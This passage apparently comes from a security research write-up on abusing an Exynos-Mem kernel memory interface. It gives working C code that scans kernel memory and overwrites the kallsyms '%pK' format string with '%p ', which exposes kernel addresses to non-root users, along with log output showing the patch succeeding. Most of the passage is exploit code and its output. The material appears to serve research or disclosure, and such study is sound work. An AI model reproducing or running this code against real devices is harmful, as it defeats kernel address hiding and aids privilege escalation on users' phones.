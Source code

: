 ```c
    }

    read_bytes = fread(buf, 1, length, fp);
    if (length != read_bytes) {
        printf("Failed to read bytes from Exynos-Mem @ %p.", address);
    }

    pclose(fp);
}
```

Now, we want to scan the whole memory region of the kernel and replace the formats:
```c

void _scan_and_patch_string(uint8_t* buf, uint32_t base_addr) {
    const char *pattern = KALLSYMS_FMT;
    size_t patlen = strlen(pattern);

    for (size_t offset = 0; offset + patlen <= CHUNK_SIZE; offset++) {
        if (memcmp(buf + offset, pattern, patlen) == 0) {            
            // Replace "%pK" with "%p "
            // This causes kallsyms to print addresses even
            // as a non-root user.
            _exynos_mem_write(base_addr + offset, PATCHED_KALLSYMS_FMT, PATCHED_FMT_SIZE);

            printf("[*] Patched kallsyms format @ offset 0x%zx, address 0x%zx\n", offset, base_addr + offset);

            offset += patlen - 1;
        }
    }
}

void kallsyms_fmt_patcher(void) {
    uint8_t buf[CHUNK_SIZE] = { 0 };
    uint32_t addr = KERNEL_START;

    while (addr < KERNEL_END) {
        _exynos_mem_read(addr, CHUNK_SIZE, buf);
        _scan_and_patch_string(buf, addr);

        addr += CHUNK_SIZE;
    }
}
```

Running the `kallsyms_fmt_patcher` yields us this output:
```shell
...
processed 51200 bytes
processed 51200 bytes
[*] Running Exynos-Mem Write @ 0x60409e84
processed 3 bytes
[*] Patched kallsyms format @ offset 0xe84, address 0x60409e84
processed 51200 bytes
processed 51200 bytes
processed 51200 bytes
...
```
